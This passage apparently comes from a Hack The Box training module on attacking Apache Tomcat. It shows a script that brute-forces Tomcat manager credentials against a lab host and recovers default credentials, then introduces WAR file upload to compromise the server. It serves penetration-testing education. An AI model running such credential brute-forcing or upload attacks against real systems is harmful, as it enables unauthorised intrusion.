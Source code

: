 This is a very straightforward script that takes a few arguments. We can run the script with `-h` to see what it requires to run.

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ python3 mgr_brute.py  -h

usage: mgr_brute.py [-h] -U URL -P PATH -u USERNAMES -p PASSWORDS

Tomcat manager or host-manager credential bruteforcing

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL     URL to tomcat page
  -P PATH, --path PATH  manager or host-manager URI
  -u USERNAMES, --usernames USERNAMES
                        Users File
  -p PASSWORDS, --passwords PASSWORDS
                        Passwords Files
```

We can try out the script with the default Tomcat users and passwords file that the above Metasploit module uses. We run it and get a hit!

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

If you are interested in scripting, check out the modules [Introduction to Python 3](https://academy.hackthebox.com/course/preview/introduction-to-python-3) and [Introduction to Bash Scripting](https://academy.hackthebox.com/course/preview/introduction-to-bash-scripting). A neat exercise would be creating our own Tomcat Manager brute-force login scripts using Python and Bash, but we'll leave that exercise up to you.

***

### Tomcat Manager - WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application. A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.
